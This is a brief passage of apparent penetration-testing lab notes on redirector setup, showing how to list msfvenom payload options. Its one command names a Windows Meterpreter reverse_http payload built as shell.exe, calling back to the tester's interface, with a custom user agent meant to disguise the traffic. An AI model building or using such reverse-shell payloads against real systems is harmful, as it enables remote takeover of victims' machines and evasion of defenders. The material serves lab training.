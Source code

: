  ![img](./assets/267a18249f3b9f9ad07e0b9e429bd942.png)

*Lab Redirector Setup*

To view payload generation options in msfvenom, you can use the `--list-options `flag combined with the payload

```shell
 msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe --list-options
```


